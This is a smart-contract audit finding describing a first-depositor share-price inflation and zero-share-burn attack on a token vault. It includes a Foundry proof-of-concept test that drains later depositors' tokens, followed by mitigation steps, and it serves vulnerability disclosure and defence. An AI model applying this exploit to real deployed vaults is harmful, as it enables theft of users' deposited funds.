 JohnSmith

high

# First user can steal everyone else's tokens via share price manipulation and zero share burn

## [H-02] First user can steal everyone else's tokens via share price manipulation and zero share burn
## Impact
A user who joins the systems first (deposits first) or temporary just only one left can manipulate share price and steal everybody's tokens by sending tokens to the system externally.
This attack is possible because protocol allows depositing a small amount of tokens and minting zero shares
## Proof of Concept
- Alice deposits 1 wei, and receives 1000 shares (if you initialize the vault with `STARTING_SHARES_PER_LINK = 1000` as in your test and deploy scripts)
- She makes price 1:1 via depositing 999 tokens with ERC20.transfer() 
- Next withdraws tokens worth 999 shares, so protocol left with 1 share and 1 token
- Inflates the share price to 1 share : 10^18 tokens
- People join and deposit funds
- At some point Alice can withdraw all money from vault because the protocol allows burning zero shares

One test is worth thousand words so here is the test, which you can place into your `contract Vault_depositTest` inside `deposit.t.sol` file.
```solidity
function testSharePriceManipulationAndZeroShareBurn() public {
        uint256 bobAmount = 100 ether;
        uint256 carolAmount = 120 ether;
        link.mint(alice, 1 ether);
        link.mint(bob, bobAmount);
        link.mint(carol, carolAmount);

        // Alice deposits 1 wei
        vm.startPrank(alice);
        link.approve(address(vault), type(uint256).max);
        vault.deposit(1 wei);
        vm.stopPrank();
        assertEq(vault.shares(alice), 1000); // Alice has 1000 shares 
        assertEq(vault.balanceOf(alice), 1); // which worth 1 token

        // Alice would want to reduce share price to 1:1 instead of 1000:1
        vm.prank(alice);
        link.transfer(address(vault), 999);

        assertEq(vault.shares(alice), 1000); // Alice has 1000 shares
        assertEq(vault.balanceOf(alice), 1000); // which worth 1000 tokens

        // Alice reduces amount of shares the vault has so it stores 1 share and 1 token
        vm.prank(alice);
        vault.withdraw(999);

        assertEq(vault.shares(alice), 1); // Alice has 1 share 
        assertEq(vault.balanceOf(alice), 1); // which worth 1 token

        // // Alice inflates price of a share:
        vm.prank(alice);
        link.transfer(address(vault), 1 ether - 1);

        assertEq(vault.shares(alice), 1); // Alice has 1 share 
        assertEq(vault.balanceOf(alice), 1 ether); // which worth  1 ether in tokens
 
        // // Bob deposits
        vm.startPrank(bob);
        link.approve(address(vault), type(uint256).max);
        vault.deposit(bobAmount);
        vm.stopPrank();

        assertEq(vault.shares(bob), 100); // Bob got 100 shares 
        assertEq(vault.balanceOf(bob), bobAmount); // Bob's balance is 100 ether tokens

        // // Carol deposits
        vm.startPrank(carol);
        link.approve(address(vault), carolAmount);
        vault.deposit(carolAmount);
        vm.stopPrank();

        assertEq(vault.shares(carol), 120); // Carol got 120 shares 
        assertEq(vault.balanceOf(carol), carolAmount); // Carol's balance is 120 ether tokens

        // At some point Alice decides to take some tokens from vault or all of them
        vm.startPrank(alice);
        for (uint i; i < 150; i++) {
            uint withdrawAmount = vault.convertToTokens(1) - 1 wei;
            vault.withdraw(withdrawAmount);
        }
        vm.stopPrank();

        assertGe(link.balanceOf(alice), 100 ether); // Alice deposited 1 ether tokens but withdraw 100+ at the expense of the Vault
        console.log(link.balanceOf(alice));
    }
```

### Recommended Mitigation Steps
Ensure the number of shares to be burned is non-zero: `require(_shares != 0, "zero shares burned");`

And fix price manipulation like
-  [Uniswap V2 solved this problem by sending the first 1000 LP tokens to the zero address](https://github.com/Uniswap/v2-core/blob/master/contracts/UniswapV2Pair.sol#L119-L124). The same can be done in this case i.e. when `totalSupply() == 0`, send the first min liquidity LP tokens to the zero address to enable share dilution.
-   Create a periphery contract that contains a wrapper function that atomically calls `initialize()` and `deposit()`
-   Call `deposit()` once in `initialize()` to achieve the same effect as the suggestion above.
-   [BalancerV2 solution](https://github.com/balancer-labs/balancer-v2-monorepo/blob/master/pkg/pool-utils/contracts/BasePool.sol#L302-L316) 

